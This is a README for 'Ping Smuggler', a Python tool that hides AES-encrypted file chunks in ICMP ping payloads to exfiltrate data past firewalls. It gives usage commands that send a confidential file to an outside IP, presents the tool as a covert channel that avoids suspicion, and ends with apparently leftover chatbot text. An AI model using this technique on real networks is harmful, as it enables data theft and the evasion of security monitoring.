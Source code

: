 # Ping Smuggler

Ping Smuggler is a Python tool designed to exfiltrate data from a private network by sending encrypted payloads disguised as ICMP ping packets. This technique can be used to bypass firewalls that allow ICMP ping traffic while maintaining a covert channel for data transmission.

## Overview

This repository contains two Python scripts:

1. **Sender Script (sender.py):**
    - Reads a text file and encrypts its contents into chunks.
    - Sends the encrypted chunks as ICMP payloads to a specified destination IP address.

2. **Receiver Script (receiver.py):**
    - Listens for incoming ICMP packets and captures them.
    - Decrypts the encrypted payloads contained within the ICMP packets.
    - Reconstructs the original text file from the decrypted chunks.

## Working Principle

Ping Smuggler utilizes the following approach to exfiltrate data:

1. **Encryption and Transmission (Sender Script):**
    - The sender script encrypts the data from a text file using AES encryption.
    - The encrypted data is split into chunks, and each chunk is sent as the payload of an ICMP ping packet to the specified destination IP address.

2. **Decryption and Reconstruction (Receiver Script):**
    - The receiver script captures the ICMP ping packets containing the encrypted payloads.
    - It decrypts the encrypted payloads using the same AES key.
    - Finally, it reconstructs the original text file from the decrypted chunks.

### Usage

### Sender Script (sender.py)

```bash
python sender.py <file_path> <destination_ip> <key>
```
   - <file_path>: Path to the text file to be exfiltrated.
   - <destination_ip>: IP address of the receiving computer outside the private network.
   - <key>: Encryption key (16, 24, or 32 bytes) for AES encryption.

### Receiver Script (receiver.py)
```bash
python receiver.py <key> <output_cap_file> <output_text_file>
```
   - <key>: Encryption key (must match the key used by the sender script).
   - <output_cap_file>: Path to store the captured ICMP packets (in .cap format).
   - <output_text_file>: Path to store the reconstructed text file.

### Example
## Sender Script

```bash
python sender.py confidential_data.txt 203.0.113.5 top_secret_key
```

## Receiver Script

```bash
python receiver.py top_secret_key received_packets.cap received_text.txt
```
### Usage Scenario
Ping Smuggler can be utilized in scenarios where ICMP ping traffic is allowed through a firewall, providing a covert channel for exfiltrating sensitive data from a private network. By disguising encrypted data as ICMP ping payloads, Ping Smuggler enables the transfer of data without raising suspicion or triggering firewall rules.

### Diagram
```lua
   Private Network            Firewall            Outside Network
+-------------------+    +-----------------+    +-------------------------+
|                   |    |    Firewall     |    |                         |
|   Sender          +--->+                 +--->+    Receiver             |
|                   |    |   (Allowing     |    |                         |
+-------------------+    |   ICMP Ping)    |    +-------------------------+
     Encrypts            +-----------------+            Decrypts
     Payloads                                           Payloads
```
In this diagram, Ping Smuggler bypasses the firewall by sending encrypted payloads disguised as ICMP ping packets, allowing for the exfiltration of data from the private network to the outside network.           

### Dependencies
   - Python 3.x
   - scapy
   - cryptography

### Disclaimer
Please use Ping Smuggler responsibly and only in accordance with applicable laws and regulations. Unauthorized or malicious use of this tool may result in legal consequences.

```typescript
This README.md file now includes the updated diagram illustrating how Ping Smuggler can bypass firewalls while exfiltrating data from private networks. If you have any further suggestions or requests for modifications, please let me know!
```
